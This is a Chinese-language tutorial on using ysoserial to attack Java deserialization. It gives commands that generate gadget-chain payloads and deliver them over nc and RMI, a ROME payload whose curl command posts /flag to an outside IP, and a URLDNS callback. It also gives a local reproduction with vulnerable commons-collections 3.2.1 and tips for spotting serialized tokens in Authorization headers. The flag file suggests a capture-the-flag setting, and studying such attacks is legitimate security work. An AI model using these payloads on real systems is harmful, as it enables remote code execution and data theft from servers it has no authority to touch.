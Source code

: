 Ysoserial 
<https://github.com/frohoff/ysoserial>
一款用于生成利用不安全的Java对象反序列化的有效负载的概念验证工具。
图形化优化版可以直接导出：<https://github.com/0ofo/Deswing> 
## **使用**
使用生成命令：
```
java -jar ysoserial.jar
java -jar ysoserial.jar [payload] '[command]'
```
案例：
```
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
nc 10.10.10.10 1099 < groovypayload.bin

java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe

java -jar ysoserial.jar ROME "curl http://1.2.90.186:1234 -d @/flag" |base64
POST请求的数据体读/flag文件发送到服务器。
 
|base64在windows用不了。可以使用图像化版、python、BP插件java DeserializationScanner 导出base64的payload。
```

^
## **复现**
对生成后的.bin文件进行反序列化，存在对应的依赖，则可以触发。
```
 java -jar ysoserial.jar CommonsCollections7 calc.exe >cc7.bin
 java -jar ysoserial.jar URLDNS http://dnslog.cn >url.bin
```
```
public static Object DeSerializable(String path) throws IOException, ClassNotFoundException {
    ObjectInputStream ois = new ObjectInputStream(new FileInputStream(path));
    return ois.readObject();
}

public static void main(String[] args) throws IOException, ClassNotFoundException {

    new ArrayStack();
    DeSerializable("src/cc7.bin");
}
```
```
<dependencies>
    <dependency>
        <groupId>commons-collections</groupId>
        <artifactId>commons-collections</artifactId>
        <version>3.2.1</version>
    </dependency>
</dependencies>
```

## **常规入口场景**
下方的特征可以作为序列化的标志参考：
一段数据以rO0AB开头，你基本可以确定这串就是Java序列化base64加密的数据。
或者如果以aced开头，那么他就是这一段Java序列化的16进制。
所以这串数据可能会被服务端拿去反序列化。

比如一个Authorization头是这样的，不是标准jwt，可能是序列化后的用户类
```
Authorization Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
```
可以使用burpsuite的java DeserializationScanner插件扫描可利用链，或者代码审计依赖利用链。
常规可以直接使用ysoserial.jar打。
